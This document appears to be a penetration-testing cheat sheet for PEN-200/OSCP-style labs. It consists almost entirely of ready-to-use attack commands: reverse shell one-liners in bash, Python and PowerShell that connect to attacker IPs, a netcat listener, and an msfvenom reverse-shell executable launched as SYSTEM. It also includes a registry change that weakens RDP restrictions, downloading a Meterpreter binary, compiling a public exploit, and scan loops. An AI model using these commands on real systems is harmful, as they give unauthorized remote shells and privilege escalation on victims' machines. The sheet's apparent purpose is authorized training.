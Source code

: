 | **Reverse shells**                                                                                                                                     | **Description**                                 |
| ------------------------------------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------- |
| `bash -i >& /dev/tcp/192.168.119.3/4444 0>&1`                                                                                                          | Common reverse shell                            |
| `bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"`                                                                                                | If prior shell doesn't work due to Bourne Shell |
| `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.190",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'` | Python reverse shell                            |
| `IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.190/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell`            | Powershell reverse shell with PowerCat          |

| **Netcat listener** | **Description** |
| ---- | ---- |
| `nc -nvlp 9001` | In port 9001 |

| **Banner grabbing** | **Description** |
| ---- | ---- |
| `telnet 10.10.10.10 22` | For ip 10.10.10.10 in port 22 |


Google dork to search exploits (Instead of searchsploit):
```text
phpMyAdmin 4.9.2 site:exploit-db.com
```

Extract metadata from a file

```
exiftool -a -u brochure.pdf
```

#### Windows

When we are admin but cannot execute commands as nt authority\\system we can use this two powershell scripts (**[Invoke-CommandAs](https://raw.githubusercontent.com/mkellerman/Invoke-CommandAs/master/Invoke-CommandAs/Public/Invoke-CommandAs.ps1) and **[Invoke-ScheduledTask.ps1](https://raw.githubusercontent.com/mkellerman/Invoke-CommandAs/master/Invoke-CommandAs/Private/Invoke-ScheduledTask.ps1)**)
```shell
*Evil-WinRM* PS C:\> Import-Module .\Invoke-CommandAs.ps1
*Evil-WinRM* PS C:\> Import-Module .\Invoke-ScheduledTask.ps1
*Evil-WinRM* PS C:\> Invoke-CommandAs -ScriptBlock {whoami} -AsSystem
	nt authority\system
```
We can create a msfvenom exe payload and catch the shell with a meterpreter session
```shell
kali # msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.204 LPORT=443 -f exe -o shell.exe
----
*Evil-WinRM* PS C:\> Invoke-CommandAs -ScriptBlock {C:\Users\Administrator\Documents\shell.exe} -AsSystem
----
msf6 exploit(multi/handler) > run
[*] Command shell session 1 opened (192.168.45.204:443 -> 192.168.222.147:60443) at 2024-02-29 13:46:59 +0100
```

When xfreerdp admin doesn't work
```shell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

PS - Enable terminal color (for WinPeas for example)
```shell
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

PS - Get local user
```shell
Get-LocalUser
```

PS - List IP and hostnames in AD environment
```shell
Get-ADComputer -Filter * | Select-Object DNSHostName, @{name="Ip";Expression={(Test-Connection $_.DNSHostname -Count 1).IPV4Address.IPAddressToString}}
```

Check current shell:
```shell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

Cross-platform exploit compiling:
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe
```

If we get errors due to the linker cannot find the winsock library:
```bash
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
```

Find filename:
```shell
dir -Path C:\  -Include flag.txt -File -Recurse -ErrorAction SilentlyContinue
```

Retrieve a file in Powershell (same as wget)
```shell
iwr -uri http://192.168.119.2/met.exe -Outfile met.exe
```

| Enumerating                                                                                                                                                                                                                                                                                                 | **Description**                  |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------- |
| `for i in $(cat ../internal-network.txt); do mkdir -p $i/nmap; nmap -p- --min-rate=10000 --open $i -oA "$i/nmap/quick-scan"; done`                                                                                                                                                                          | Quick scan from scope file       |
| `mkdir nmap`<br>`for i in $(cat scope.txt); do sudo nmap -p- --min-rate=10000 --open $i -oG nmap/$i; done`<br>`cd nmap`<br>`for i in $(ls \| grep -v '.nmap'); do extractPorts $i; export clipboard_content=`xclip -o -selection clipboard`; nmap -p $clipboard_content -sCV -A -T4 $i -oN "$i.nmap"; done` | Script to process scope.txt file |

**Phising:** Refer to PEN-200 content, 24.3.2 module and use swaks